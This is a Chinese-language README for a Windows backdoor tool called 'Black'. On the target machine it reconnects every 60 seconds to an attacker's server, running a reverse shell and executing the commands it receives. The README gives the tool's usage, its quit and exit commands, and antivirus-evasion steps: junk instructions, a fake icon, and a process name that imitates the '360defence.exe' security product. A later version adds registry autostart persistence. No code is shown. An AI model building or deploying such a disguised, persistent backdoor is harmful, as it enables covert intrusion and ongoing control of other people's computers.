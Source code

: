 ## Windows权限维持工具

### version 1.0

##### **~开发思路：**

- S端通过socket管道来传输command给C端，C端执行，实现简易的后门控制
- 采用TCP socket、传输稳定，不掉包（可能会出现粘包，未做边界分离）
- 靶机为C端，公网VPS为S端，C端不断发起连接，以防掉线
- ~~混淆代码，初步免杀~~

##### ~使用方法：

> ```
> # Windows权限维持后门、持续反弹shell，60s/1次
> Black v1.0
> Usage: black.exe r_ip r_port
> author: NOVASEC_黑仔
> if cmd == quit:
>  关闭管道，临时退出
> elif cmd == exit:
>  程序结束，永久退出
> else:
> 执行命令，回显结果
> ```

##### **~使用效果：**

正常回显

![image-20210330174558324](https://user-images.githubusercontent.com/33219753/121507501-483dcb80-ca17-11eb-9132-18e9b45a831e.png)



暂时退出、断开后，60s再次连接，继续执行命令

![image-20210330174838523](https://user-images.githubusercontent.com/33219753/121507542-512e9d00-ca17-11eb-8bfe-6f41f46eccba.png)


永久退出、断开连接

![image-20210330175403279](https://user-images.githubusercontent.com/33219753/121507593-5ab80500-ca17-11eb-902c-1a746d6dd4fa.png)

靶机端口及进程情况：

![image-20210330175221694](https://user-images.githubusercontent.com/33219753/121507627-63104000-ca17-11eb-99b6-8d2dbca9e422.png)


![image-20210330175046964](https://user-images.githubusercontent.com/33219753/121507648-69062100-ca17-11eb-823a-10070b7ed93d.png)


##### ~免杀情况：

![image-20210330173705993](https://user-images.githubusercontent.com/33219753/121507680-71f6f280-ca17-11eb-8a8a-0f1e5d0e1e6d.png)


![image-20210330170259060](https://user-images.githubusercontent.com/33219753/121507747-80dda500-ca17-11eb-83e2-5bda8f65c4e9.png)


被检测出了，建议隔离

![image-20210330170745685](https://user-images.githubusercontent.com/33219753/121507784-8a670d00-ca17-11eb-94d3-c16b6cb4875a.png)

> 在之前的基础上
>
> 增加花指令
>
> 增加程序图标
>
> 其他不变（进程名360defence.exe，双进程）

![image-20210331232840781](https://user-images.githubusercontent.com/33219753/121507823-93f07500-ca17-11eb-986e-50039afdd964.png)


![image-20210331232844697](https://user-images.githubusercontent.com/33219753/121507856-9a7eec80-ca17-11eb-8d0e-a5c1c1b5f93f.png)


##### **~后期规划**：

- 进行出网判断
- 流量加密
- 进阶免杀
- 等等...

### version 1.1

- 不再提供免杀
- 修复bug，更稳定

### version 1.2

- 增加注册自启动功能

运行前：

![image-20210610164417507](https://user-images.githubusercontent.com/33219753/121507914-a79bdb80-ca17-11eb-890a-222a5bc39dc1.png)


运行后：

![image-20210610153915575](https://user-images.githubusercontent.com/33219753/121507939-af5b8000-ca17-11eb-9cd7-c98cf646553e.png)


![image-20210610165050508](https://user-images.githubusercontent.com/33219753/121507976-b84c5180-ca17-11eb-976b-d95a93d6258e.png)


重启验证：

![image-20210610175439655](https://user-images.githubusercontent.com/33219753/121507997-bc786f00-ca17-11eb-864c-d2f156f522c9.png)

![image-20210610181110442](https://user-images.githubusercontent.com/33219753/121508017-c00bf600-ca17-11eb-9061-7c550e2f368f.png)









